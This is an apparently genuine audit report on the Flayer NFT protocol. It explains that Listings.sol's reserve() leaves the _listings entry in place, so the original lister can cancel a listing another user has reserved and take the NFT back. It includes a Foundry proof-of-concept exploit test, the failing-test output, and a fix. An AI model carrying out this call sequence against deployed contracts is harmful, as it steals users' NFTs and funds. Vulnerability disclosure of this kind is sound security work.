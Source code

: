 Stable Chili Ferret

High

# Incorrect handling of `_listings` mapping variable in `Listings.sol#reserve()` function

### Summary

The previous owner of `Listing` can steal the NFT because the `_listings` mapping variable is not deleted in the [`Listings.sol#reserve()`](The previous owner of `Listing` can steal the NFT because the `_listings` mapping variable is not deleted in the `Listings.sol#reserve()` function.) function.


### Root Cause

In the `Listings.sol#reserve()` function, the `_listings` mapping variable is not deleted.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

- Bob deposits his NFT and creates a `Listing` using the [`Listings.sol#createListings()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L130) function.
- Alice reserves Bob's Listing by calling the `Listings.sol#reserve()` function and paying the required amount.
- In [`Listings.sol#L725`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L725), `listingCount` is decremented, but `_listings` is not deleted.

     Since the NFT is deposited in the Locker and `_listings` has not been deleted, Bob is still the owner of his listing.
- Bob immediately redeems his NFT by calling the [`Listings.sol#cancelListings()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L414) function.
- Alice tries to interact with her ProtectedListing, but the transaction gets reverted because the NFT does not exist in the Locker.


### Impact

A malicious user can steal NFTs from the protocol, causing users to lose funds and NFTs.

### PoC

```solidity
function test_CanCancelListingAfterReserve(address payable _owner, uint _tokenId, uint16 _floorMultiple) public {
        // Ensure that we don't get a token ID conflict
        _assumeValidTokenId(_tokenId);

        // Ensure that we don't set a zero address _owner
        _assumeValidAddress(_owner);

        // Ensure that our multiplier is above 1.00
        _assumeRealisticFloorMultiple(_floorMultiple);

        // Capture the amount of ETH that the user starts with so that we can compute that
        // they receive a refund of unused `msg.value` when paying tax.
        uint startBalance = payable(_owner).balance;

        // Mint our token to the _owner and approve the {Listings} contract to use it
        erc721a.mint(_owner, _tokenId);

        vm.startPrank(_owner);
        erc721a.approve(address(listings), _tokenId);

        Listings.Listing memory listing = IListings.Listing({
            owner: _owner,
            created: uint40(block.timestamp),
            duration: VALID_LIQUID_DURATION,
            floorMultiple: _floorMultiple
        });

        // Get our required tax for the listing
        uint requiredTax = taxCalculator.calculateTax(address(erc721a), _floorMultiple, VALID_LIQUID_DURATION);

        // Confirm that our expected event it emitted
        vm.expectEmit();
        emit Listings.ListingsCreated(address(erc721a), _tokenIdToArray(_tokenId), listing, listings.getListingType(listing), 1 ether - requiredTax, requiredTax, _owner);

        // Create our listing
        _createListing({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: listing
            })
        });
        vm.stopPrank();

        // Confirm that the {Locker} now holds the expected token
        assertEq(erc721a.ownerOf(_tokenId), address(locker));

        // Confirm that the listing was created with the correct data
        IListings.Listing memory _listing = listings.listings(address(erc721a), _tokenId);

        assertEq(_listing.owner, _owner);
        assertEq(_listing.created, uint40(block.timestamp));
        assertEq(_listing.duration, VALID_LIQUID_DURATION);
        assertEq(_listing.floorMultiple, _floorMultiple);

        // Confirm that the user has received their ERC20 token, minus the required tax payment
        assertEq(locker.collectionToken(address(erc721a)).balanceOf(_owner), 1 ether - requiredTax);

        // Confirm that the user has had no change to their ETH balance
        assertEq(payable(_owner).balance, startBalance);

        ICollectionToken token = locker.collectionToken(address(erc721a));
        deal(address(token), address(this), 1000 ether * 10 ** token.denomination());

        vm.startPrank(address(this));
        vm.warp(block.timestamp + (VALID_LIQUID_DURATION / 2));
        token.approve(address(listings), type(uint).max);
-->     listings.reserve(address(erc721a), _tokenId, 0.4 ether);
        assertEq(erc721a.ownerOf(_tokenId), address(locker));
        vm.stopPrank();

        vm.startPrank(_owner);
        token.approve(address(listings), type(uint).max);
-->     listings.cancelListings(address(erc721a), _tokenIdToArray(_tokenId), false);

        assertEq(erc721a.ownerOf(_tokenId), _owner);
        vm.stopPrank();

        vm.startPrank(address(this));
        IProtectedListings protectedListings = listings.protectedListings();
        deal(address(token), address(this), 100000000 ether * 10 ** token.denomination());
        token.approve(address(protectedListings), type(uint).max);
-->     protectedListings.unlockProtectedListing(address(erc721a), _tokenId, true);
    }
```
Result:
```solidity
Ran 1 test suite in 26.63ms (25.08ms CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/Listings.t.sol:ListingsTest
[FAIL. Reason: TransferFromFailed(); counterexample: calldata=0xa58722510000000000000000000000007844279ae41c4f93b40d4ba28befb63162df6a220000000000000000000000000000000000000000000000000000016f43e5f192000000000000000000000000000000000000000000000000000000000000006a args=[0x7844279ae41C4F93b40D4BA28BeFb63162Df6A22, 1577392140690 [1.577e12], 106]] test_CanCancelListingAfterReserve(address,uint256,uint16) (runs: 0, μ: 0, ~: 0)
```


### Mitigation

Add the follow lines to the `Listings.sol#reserve()` function:
```solidity
    function reserve(address _collection, uint _tokenId, uint _collateral) public nonReentrant lockerNotPaused {
        // Read the existing listing in a single read
        Listing memory oldListing = _listings[_collection][_tokenId];

        // Ensure the caller is not the owner of the listing
        if (oldListing.owner == msg.sender) revert CallerIsAlreadyOwner();

        // Ensure that the existing listing is available
        (bool isAvailable, uint listingPrice) = getListingPrice(_collection, _tokenId);
        if (!isAvailable) revert ListingNotAvailable();

        // Find the underlying {CollectionToken} attached to our collection
        ICollectionToken collectionToken = locker.collectionToken(_collection);

        // Check if the listing is a floor item and process additional logic if there
        // was an owner (meaning it was not floor, so liquid or dutch).
        if (oldListing.owner != address(0)) {
            // We can process a tax refund for the existing listing if it isn't a liquidation
            if (!_isLiquidation[_collection][_tokenId]) {
                (uint _fees,) = _resolveListingTax(oldListing, _collection, true);
                if (_fees != 0) {
                    emit ListingFeeCaptured(_collection, _tokenId, _fees);
                }
            }

            // If the floor multiple of the original listings is different, then this needs
            // to be paid to the original owner of the listing.
            uint listingFloorPrice = 1 ether * 10 ** collectionToken.denomination();
            if (listingPrice > listingFloorPrice) {
                unchecked {
                    collectionToken.transferFrom(msg.sender, oldListing.owner, listingPrice - listingFloorPrice);
                }
            }

            // Reduce the amount of listings
            unchecked { listingCount[_collection] -= 1; }

+++         delete _listings[_collection][_tokenId];
        }

        SNIP...
    }
```